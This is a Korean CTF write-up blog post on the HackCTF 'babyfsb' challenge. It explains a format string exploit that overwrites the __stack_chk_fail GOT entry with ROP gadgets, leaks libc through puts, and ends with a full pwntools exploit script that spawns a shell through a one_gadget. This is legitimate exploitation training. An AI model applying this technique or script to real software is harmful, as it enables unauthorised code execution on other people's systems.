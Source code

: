```yaml
---
layout: post
title:  "HacCTF babyfsb write-up"
date:   2020-03-20 19:45:55
image:  hackctf_babyfsb.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled.png)

PIE는 걸려있지 않지만 이번에는 카나리가 걸려있다.

<br>

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%201.png)

hello 라는 문자열이 출력되고 입력할수 있는 공간이 나온다. 그 뒤 입력한 문자열이 출력되고 바로 종료가 된다.

<br>

**3) 코드흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%202.png)

read로 0x40 만큼 입력을 받는다. ret 을 덮을 수 없는 사이즈이다.

10라인에서 printf 를 이용해 fsb가 가능할 것으로 보인다.


<br><br>


### 2. 접근방법

---

일반적으로 fsb를 이용하면 " % $ n 등등.." 이러한 서식문자를 이용하여 특정함수의 got를 덮고, 원하는 got_overwrite를 이용하여 원하는 동작을 일으키는 식으로 문제를 풀었었다.

64bit 환경이기 때문에 %p 5개를 입력하고 그다음 서식문자부터 rsp의 값들을 leak할수 있다. 한번 상황을 봐보자.

 

- printf (" %p %p %p %p %p %p %p %p")

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%203.png)
        
        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%204.png)
        
        0x7fffffffdcc0 이 현재 ret주소를 담고있는 주소이다. 여기 ret주소를 가리키고 있는 부분이 없기 때문에 곧바로 ret 값을 변경할 수 없다. 또한 만약 어찌해서 특정 함수의 got를 덮었다고 해도 printf 함수다음 return 0 이 나오기 때문에 해당 함수를 실행시킬수 없다.

    하지만 !! 문제를 잘 보면 현재 카나리가 걸려있다. 따라서 카나리를 체크하는 함수가 어셈블리로 보면 확인가능하다.
    
             0x0000000000400711 <+107>:	mov    rcx,QWORD PTR [rbp-0x8]
           0x0000000000400715 <+111>:	xor    rcx,QWORD PTR fs:0x28
           0x000000000040071e <+120>:	je     0x400725 <main+127>
           0x0000000000400720 <+122>:	call   0x400550 <__stack_chk_fail@plt>
           0x0000000000400725 <+127>:	leave  
           0x0000000000400726 <+128>:	ret
    
    카나리 값은 rbp-0x8에 위치해 있는데, 이는 read함수로  덮을수 있다. 해당 값이 변조되면 stack_chk_fail 함수가 호출된다. 따라서 해당 함수의 got를 덮으면 된다 !

<br>

- **libc 주소 leak 시나리오**
    1. stack_chk_fail 함수의 got를 " pop rdi; ret " 가젯 주소로 덮는다.
    2. 일부로 카나리를 변조하여 해당 함수가 실행되게끔 한다.
    3. stack_chk_fail 함수가 실행되면 현재 got에 pop rdi; ret 주소로 덮혀져 있기 때문에 가젯 주소로 간다
    4. puts의 주소를 leak해야하기위해 rdi에 puts_got를 넣고 puts_plt를 넣는다.
    5. payload = %(pop rdi;ret 주소 10진수값)c %8 $ln +"AA" // align을 위해 AA두개를 넣음

        payload += stack_chk_fail_got 주소

        payload += puts_got 주소

        payload += puts_plt 주소

        payload += "B"*( 0x40 * len(payload) )  // 카나리 변조에러를 일으키기 위해

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%205.png)

<br>

   위 상황은 현재 위 시나리오의 페이로드를 보내고나서, stack_chk_fail 함수가 호출된 상태이다.

원하는대로 해당 함수의 got가 덮혀져 가젯 주소로 ret되었다. 근데, 여기서 stack을 보면 약간 이상하다. 원래대로라면 rdi에 put_got가 들어가야하는데, 현재 스택 최상단에 0x400725가 들어가있어 이 값이 rdi에 들어간다.

원하는 값인 0x601018은 스택에서 5번째에 위치해 있는 것을 볼수 있다. 따라서 위 시나리오의 페이로드를 전송하면 에러가 난다. 우리는 pop rdi ; ret 가젯을 이용하기 전에 스택을 먼저 맞추기 위해 pop pop pop pop ret; 가젯을 먼저 호출해야한다.

그래야 4번의 pop이 일어나고 우리가 넣은 값을 이용할 수 있다. 정리하면 ppppr 가젯으로 got를 덮고 그다음 pop rdi; ret를 넣은뒤 그 뒤에 put_got, put_plt를 넣어주면 된다.

<br>

**페이로드 수정 !**

- payload = %(pop pop pop pop ; ret; 주소 10진수값)c %8 $ln +"AA"

    payload += stack_chk_fail_got 주소

    payload += pop rdi; ret 주소

    payload += puts_got 주소

    payload += puts_plt 주소

    payload += "B"*( 0x40 * len(payload) )  // 카나리 변조에러를 일으키기 위해

    payload += main 주소

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%206.png)

<br>

수정된 페이로드로 디버깅을 했을때 stack_chk_fail 함수가 실행되어 ppppr 주소로 돌아갔고, ret가 실행되면 pop rdi; ret 주소로 가는 것을 확인할 수 있다. 그 이후 0x601018을 rdi에 제대로 저장할 것이다.

이렇게 하면 puts의 주소를 leak할 수 있고, 이를 이용하여 libc_base 주소를 구할 수 있다.

그다음은 다시 main으로 돌아가서 stack_chk_fail got를 one gadget주소로 덮으면 끝이다



<br><br>

### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
#p=remote("ctf.j0n9hyun.xyz", 3032)
env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
p=process("./babyfsb",env=env)
e=ELF("./babyfsb")
libc=ELF("./libc.so.6")

one_shot_off=0x45216

gdb.attach(p)
p.recvuntil("hello\n")
pause()
payload = "%4196236c%8$ln"+"AA"+p64(0x601020)+p64(0x400793)+p64(e.got['puts'])+p64(e.plt['puts'])
payload += p64(0x4006A6) # main
payload += "C"*(0x40-len(payload))
p.send(payload)

put_addr=u64(p.recvuntil("hello\n")[-13:-7]+"\x00\x00")
libc_base=put_addr-libc.symbols['puts']
log.info(hex(libc_base))
log.info(hex(libc_base+one_shot_off))
pause()
payload2 = "%4196236c%8$ln"+"AA" + p64(0x601020)+p64(libc_base+one_shot_off)
payload2 += "C"*(0x40-len(payload2))
p.send(payload2) 
p.interactive()
```


<br><br>

### 4. 몰랐던 개념

---

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%207.png)

원샷 가젯을 실행시키면 위와 같이 4개의 one gadget offset 주소를 확인 할 수 있는데, 해당 문제에서는 맨 위의 오프셋만 정상적으로 동작하고 나머지 3개는 에러를 뿜는다.

나머지 3개가 에러를 뿜는 이유를 첨에는 몰랐는데 2번째 인자에 execve를 이용하여 쉘을 얻으려면 2,3번째 인자가 널이여야한다. 따라서 rsp+0x30, rsp+0x50, rsp+0x70 이 3개는 해당 one gadget이 호출되었을때 널이 아니여서 execve가 제대로 동작하지 않은 것이다.

첫번째 offset이 실행되기 위해서는 rax=NULL 이여야하는데 내부적으로 해당 조건이 만족되는것 같다